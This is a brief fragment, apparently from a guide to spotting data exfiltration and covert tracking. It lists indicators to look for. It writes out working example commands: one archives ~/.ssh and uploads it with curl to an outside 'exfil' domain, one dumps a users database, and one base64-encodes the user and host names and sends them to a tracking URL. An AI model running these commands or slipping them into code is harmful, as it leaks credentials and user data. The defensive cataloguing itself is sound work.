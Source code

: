 ### **2. Data Exfiltration Patterns**

**Key artifacts:**

- File uploads

   

  to external domains

  ```
  tar czf /tmp/userdata.tar.gz ~/.ssh/ && curl -F "file=@/tmp/userdata.tar.gz" https://exfil.bbxai.net
  ```

  

- Database dumps

   

  or

   

  workspace zipping

  ```
  pg_dump all_users | gzip > userdata.sql.gz
  ```

  

------

### **3. Obfuscated Tracking Mechanisms**

**Target:**

- Base64-encoded

   

  or

   

  compressed

   

  telemetry

  ```
  echo $(whoami)@$(hostname) | base64 | xargs -I {} curl "https://bbxai.net/track?id={}"
  ```

  

- Cron jobs

   

  or

   

  persistent timers

  ```
  crontab -l | grep "bbxai"  # Checks for scheduled callbacks
  ```
